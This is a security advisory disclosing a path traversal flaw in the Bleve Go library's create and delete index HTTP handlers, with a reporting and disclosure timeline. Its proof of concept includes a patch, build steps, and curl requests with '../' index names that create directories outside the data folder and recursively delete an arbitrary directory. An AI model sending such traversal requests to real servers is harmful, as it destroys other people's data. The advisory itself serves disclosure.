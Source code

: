 ```yaml
---
title: 'Bleve Library: Traversal Vulnerabilities in Create / Delete IndexHandler'
severity: Low
ghsa_id: GHSA-gc7p-j7x8-h873
cve_id: null
weaknesses: []
products:
- ecosystem: Go
  package_name: Bleve Library
  affected_versions: '> v0.1.0'
  patched_versions: ''
cvss: null
credits: []
---
```


**Summary**
This is a path traversal vulnerability that impacts the CreateIndexHandler and DeleteIndexHandler found within Bleve search library.  These vulnerabilities enable the attacker to delete any directory owned by the user recursively, and create a new directory in any location which the server has write permissions to.

**Severity**
Low - The vulnerability only affects applications using these esoteric HTTP handlers, if not sanitized to prevent path traversal in the index name.

**Proof of Concept**
Please leverage the patched Bleve Explorer demo application [here](https://github.com/blevesearch/bleve-explorer).

The patch to expose the vulnerability is on github at [path-traversal.patch](https://github.com/google/security-research/tree/master/pocs/bleve):

Viewers can download

```
Viewers can download
diff --git a/http_util.go b/http_util.go
index 926a3e0..0e34f14 100644
--- a/http_util.go
+++ b/http_util.go
@@ -78,6 +78,10 @@ func indexNameLookup(req *http.Request) string {
 	return muxVariableLookup(req, "indexName")
 }
 
+func crapIndexNameLookup(req *http.Request) string {
+	return req.URL.Query()["indexName"][0]
+}
+
 func showError(w http.ResponseWriter, r *http.Request,
 	msg string, code int) {
 	log.Printf("Reporting error %v/%v", code, msg)
diff --git a/main.go b/main.go
index 0a1148b..2cfed51 100644
--- a/main.go
+++ b/main.go
@@ -98,16 +98,16 @@ func main() {
 	bleveMappingUI.RegisterHandlers(router, "/api")
 
 	createIndexHandler := bleveHttp.NewCreateIndexHandler(*dataDir)
-	createIndexHandler.IndexNameLookup = indexNameLookup
-	router.Handle("/api/{indexName}", createIndexHandler).Methods("PUT")
+	createIndexHandler.IndexNameLookup = crapIndexNameLookup
+	router.Handle("/api/create", createIndexHandler).Methods("PUT")
 
 	getIndexHandler := bleveHttp.NewGetIndexHandler()
 	getIndexHandler.IndexNameLookup = indexNameLookup
 	router.Handle("/api/{indexName}", getIndexHandler).Methods("GET")
 
 	deleteIndexHandler := bleveHttp.NewDeleteIndexHandler(*dataDir)
-	deleteIndexHandler.IndexNameLookup = indexNameLookup
-	router.Handle("/api/{indexName}", deleteIndexHandler).Methods("DELETE")
+	deleteIndexHandler.IndexNameLookup = crapIndexNameLookup
+	router.Handle("/api/delete", deleteIndexHandler).Methods("DELETE")
 
 	listIndexesHandler := bleveHttp.NewListIndexesHandler()
 	router.Handle("/api", listIndexesHandler).Methods("GET")

```

To start the patched demo application:

```
git clone git@github.com:blevesearch/bleve-explorer.git
cd bleve-explorer
patch -p1 < path/to/path-traversal.patch
mkdir data
go build
./bleve-explorer
```
Now the server is running, you can call CreateIndexHandler with any path:

curl -XPUT localhost:8095/api/create?indexName=../controlled-by-user

Observe that a directory called “controlled-by-user” is created at the same level as the data directory created above, which is supposed to contain the indexes.

```

$ ls -lR controlled-by-user
controlled-by-user:
total 8
-rw-r--r-- 1 u g   42 Mar  2 17:07 index_meta.json
drwx------ 2 u g 4096 Mar  2 17:07 store

controlled-by-user/store:
total 32
-rw------- 1 u g 65536 Mar  2 17:07 root.bolt

```
The contents of this directory aren't controlled by the attacker through this vulnerability, but might be manipulated elsewhere through the vulnerable application.

However if the application - like the patched demo application - uses both CreateIndexHandler and DeleteIndexHandler without itself sanitizing the index name, then any directory writable by the user running the server can be deleted recursively.

First run CreateIndexHandler, which doesn’t complain that the directory already exists and add its contents alongside any existing contents, and then DeleteIndexHandler will delete the entire directory recursively:

```
$ mkdir -p some-directory/nested
$ echo hello > some-directory/nested/world
$ curl -XPUT localhost:8095/api/create?indexName=../some-directory
{"status":"ok"}
$ ls -lR some-directory/
some-directory/:
total 12
-rw-r--r-- 1 u g   42 Mar  2 17:55 index_meta.json
drwxr-xr-x 2 u g 4096 Mar  2 17:54 nested
drwx------ 2 u g 4096 Mar  2 17:55 store

some-directory/nested:
total 4
-rw-r--r-- 1 u g 6 Mar  2 17:54 world

some-directory/store:
total 32
-rw------- 1 u g 65536 Mar  2 17:55 root.bolt
$ curl -XDELETE localhost:8095/api/delete?indexName=../some-directory
{"status":"ok"}
$ ls -lR some-directory/
ls: cannot access 'some-directory/': No such file or directory

```

**Further Analysis**
N/A

**Timeline**
**Date reported**: 03/09/2022
**Date fixed**: The Bleve developers decided not to fix this, but to document the risk instead.
**Date disclosed**: 07/01/2022
